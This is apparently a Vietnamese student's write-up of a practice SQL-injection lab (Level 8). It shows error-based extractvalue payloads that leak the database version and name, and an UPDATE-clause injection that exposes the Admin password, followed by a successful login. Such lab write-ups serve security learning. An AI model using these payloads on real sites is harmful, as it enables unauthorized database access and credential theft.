 # <div align="center"><p> SQL-Injection/Level_8</p></div>
 ## Họ và tên: Mai Thị Hoàng Yến
 ## Ngày báo cáo: Ngày 06/5/2022
 ### MỤC LỤC
   [SQL-Injection](#gioithieu)
   
### Nội dung báo cáo 
#### SQL-Injection <a name="gioithieu"></a>
- B1: Đây là trang web của level8 .

  ![image](https://user-images.githubusercontent.com/101852647/167063084-e965f579-3c76-49c0-83c7-56d9beb872ed.png)

-B2: Thử chèn ' vào các vị trí trên bảng edit và thấy chỉ có hàng email là trả về lỗi. Như vậy, chúng ta có thể lợi dụng email để khai thác.

  ![image](https://user-images.githubusercontent.com/101852647/167063222-55ed3e2a-7f12-41ee-aa68-ba035ca5fc18.png)

- B3: Thử nhập lệnh `' union select 1,2#` nhưng vẫn trả về thông báo lỗi.

  ![image](https://user-images.githubusercontent.com/101852647/167063307-8d69d33b-bb8e-4d29-a54b-6c8fa3c01602.png)

- B4: Ta sẽ dùng câu lệnh `' or extractvalue(0x0a,concat(0x0a,(select version()))) or '` để tìm phiên bản.

  ![image](https://user-images.githubusercontent.com/101852647/167063422-13fb7735-e185-43bc-abfc-49a19a52c4b8.png)

- B5: Ta sẽ dùng câu lệnh `' or extractvalue(0x0a,concat(0x0a,(select database()))) or '` để tìm database. Kết quả trả về chúng ta là `hackit`

  ![image](https://user-images.githubusercontent.com/101852647/167063493-d8dc1143-087c-462e-9181-c3699c334bb0.png)

- B6: Ta sẽ dùng câu lệnh `' or extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit  1 OFFSET 2))) or '` để tìm tên table. Nhưng kết quả trả về không ổn.

  ![image](https://user-images.githubusercontent.com/101852647/167063746-3f13eb6a-2557-4c16-afd4-22956fe93ae7.png)

- B7: Bây giờ ta mới để ý lại lỗi ban đầu ta gặp và sẽ dựa vào đó để khai thác. Ta thấy lỗi cú pháp gần `'union select 1,2,3#', icq = '12345', age = '25' WHERE id = 1' ` vậy thì chúng ta sẽ lợi dụng lỗ hổng này để khai thác bằng cách chèn thêm câu lệnh `', name=password,icq='` và kết quả trả về cho chúng ta password ngay ở dòng name.

  ![image](https://user-images.githubusercontent.com/101852647/167063882-c1234756-f062-4e71-82f9-78f38dc3034b.png)
  
  ![image](https://user-images.githubusercontent.com/101852647/167064389-1875abbb-07e6-4ba9-af85-329aadb62db8.png)
  
- B8: Sau kkhi đăng nhập với `username=Admin` và `password=19JPYS1jdgvkj` thì đã đăng nhập thành công.

  ![image](https://user-images.githubusercontent.com/101852647/167064225-57b4d6ca-18ff-44da-b444-d5dc2547ff88.png)




  
